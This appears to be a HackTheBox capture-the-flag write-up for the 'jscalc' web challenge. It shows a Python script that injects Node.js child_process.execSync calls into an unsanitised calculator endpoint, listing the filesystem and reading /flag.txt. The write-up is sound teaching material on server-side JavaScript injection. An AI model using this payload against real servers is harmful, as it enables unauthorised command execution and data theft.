 # HackTheBox Write-Up: jscalc \[EASY] \[CATEGORY] WEB
## Description
In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑
# My approach
I first checked the challenge itself and do some testing.

![Alt Text](img/img-1.png)

![Alt Text](img/img-2.png)

# After some testing, it appeared to be working as intended. I then experimented with random strings.

![Alt Text](img/img-3.png)

It seems like there is no input sanitation at all; it accepts any input. Let's try to exploit this using a script because why not.

# Lets check the code of this challenge

![Alt Text](img/img-4.png)

A route to /api/calculate

which calls this calculatorHelper.js to run the input.

![Alt Text](img/img-5.png)

# Let's make the python script
```
import requests

url = 'http://142.93.32.153:30002/api/calculate'

data = {'formula': '1+2+3+4+5'}

res = requests.post(url, json=data)

print(res.json().get('message'))

```
First let's see if it works.

![Alt Text](img/img-6.png)

Looks like it works properly

# Now time to make the payload

We need to execute some system command in order for us to see the flag. How are we gonna do that?
First is we need to import some module for NodeJS that lets us do this, this is where the child_process module comes.
Lets try to import that by changing the value of the key 'formula' in the script

![Alt Text](img/img-7.png)

Lets run this and see the output, if there are no errors then it must be working.

![Alt Text](img/img-8.png)

No errors, it works! Now lets call a method .execSync which is part of the module 'child_process', this is the part where we will execute system commands

# Executing system commands

```
import requests

url = 'http://142.93.32.153:30002/api/calculate'

data = {'formula': 'require(\'child_process\').execSync(\'ls /\').toString()'}

res = requests.post(url, json=data)

print(res.json().get('message'))

```

What this code do is to import the module 'child_process', call execSync method where the command is 'ls /', and convert the output to string. Lets run the script and see the output.

![Alt Text](img/img-9.png)

As you can see, it displayed everything in the directory '/' and looks like we found the flag. Now change the 'ls /' to 'cat /flag.txt' and now we can see the flag

![Alt Text](img/img-10.png)

# Conclusion
In conclusion, we found a loophole in the 'jscalc' challenge due to missing input checks. Exploiting this gap allowed us to run system commands, emphasizing the importance of solid security measures in web applications.

# Reference
- https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet
